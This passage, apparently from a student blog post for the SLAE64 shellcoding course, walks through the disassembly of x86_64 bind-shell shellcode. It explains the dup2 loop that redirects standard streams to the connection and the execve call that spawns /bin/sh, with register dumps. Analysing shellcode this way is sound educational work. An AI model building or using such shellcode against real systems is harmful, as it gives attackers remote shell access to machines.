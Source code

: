 ## Dup2 Loop
This is the dup2 system call loop to pass standard input, output, and error to the remote connection.
```bash
<shellcode+48>:       push   0x3
<shellcode+50>:       pop    rsi
<shellcode+51>:       dec    rsi
<shellcode+54>:       push   0x21
<shellcode+56>:       pop    rax
<shellcode+57>:       syscall
<shellcode+59>:       jne    <shellcode+51>
 
```
+ `0x21` is the system call for dup2.

## Execve 
Here we see the execve system call which will spawn a shell after establishing a connection.
```bash
<shellcode+61>:       push   0x3b
<shellcode+63>:       pop    rax
<shellcode+64>:       cdq
```
+ set `rax` to the system call number for `execve`.
+ `cdq` clears the `rdx` register.

```bash
RDI: 0x7fffffffe0e8 --> 0x68732f6e69622f ('/bin/sh')

<shellcode+65>:       movabs rbx,0x68732f6e69622f
<shellcode+75>:       push   rbx
<shellcode+76>:       mov    rdi,rsp
<shellcode+79>:       push   rdx
```
+ Here we see `rdi` set to the memory address of the null terminated string `/bin/sh`.

```bash
RSI: 0x7fffffffe0d8 --> 0x7fffffffe0e8 --> 0x68732f6e69622f ('/bin/sh')

<shellcode+80>:       push   rdi
<shellcode+81>:       mov    rsi,rsp
```
+ Here we see `rsi` set to be a pointer to a pointer for the string `/bin/sh`.

```bash
<shellcode+84>:       syscall
<shellcode+86>:       add    BYTE PTR [rax],al
```
+ And finally, this is our bind shell spawning the `/bin/sh` for the connection.


## SLAE64 Blog Proof
```bash
This blog post has been created for completing the requirements of the x86_64 Assembly Language and Shellcoding on Linux (SLAE64):
    https://www.pentesteracademy.com/course?id=7
SLAE/Student ID: PA-10913
```
